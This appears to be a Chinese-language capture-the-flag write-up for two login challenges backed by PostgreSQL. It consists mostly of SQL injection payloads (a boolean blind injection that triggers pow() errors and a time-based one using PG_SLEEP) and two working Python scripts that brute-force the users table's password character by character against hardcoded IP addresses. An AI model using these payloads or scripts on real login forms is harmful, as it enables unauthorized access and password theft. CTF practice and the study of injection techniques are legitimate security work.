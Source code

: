 构造一个bool盲注查询，通过让`pow()`函数异常和不异常来区分返回结果

```sql
or/**/pow(9,(case/**/when/**/substr((select/**/password/**/from/**/users),{},1)='{}'/**/then/**/999/**/end))='1'
```

盲注脚本

```python
import requests

chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_-'
ans = ''
j = 0
s = requests.Session()
for i in range(1,20):
    for ch in chars:
        payload = "qwer'or/**/pow(9,(case/**/when/**/substr((select/**/password/**/from/**/users),{},1)='{}'/**/then/**/999/**/end))='1".format(i,ch)
        data = {'username':'admin','password':payload}
        res = s.post('http://139.129.98.9:30005',data)
        if("qwer" not in res.text):
            ans += ch
            print(ans)
            break
```

## 你能登录成功吗-Revenge

在`你能登录成功吗`的基础上，去掉了bool盲注的区分标志，但是可以通过延时来判断

```sql
  and/**/(substr((select/**/password/**/from/**/users),{},1)='{}'/**/and/**/(SELECT/**/7563/**/FROM/**/PG_SLEEP(1))=1)and'1'='1'
```

这里有一个坑就是，postgresql的比较是区分类型的，不能使用`or PG_SLEEP(1)=1`这种语句，所以只能把它放在from里，再select出一个数据。

盲注脚本

```python
import requests
import time

chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_-'
ans = ''
j = 0
s = requests.Session()
for i in range(1,20):
    for ch in chars:
        payload = "qwer1'and/**/(substr((select/**/password/**/from/**/users),{},1)='{}'/**/and/**/(SELECT/**/7563/**/FROM/**/PG_SLEEP(1))=1)and'1'='1".format(i,ch)
        data = {'username':'admin','password':payload}
        t1 = time.time()
        res = s.post('http://139.129.98.9:30007',data)
        t2 = time.time()
        if(t2 - t1 > 1):
            ans += ch
            print(ans)
            break
```

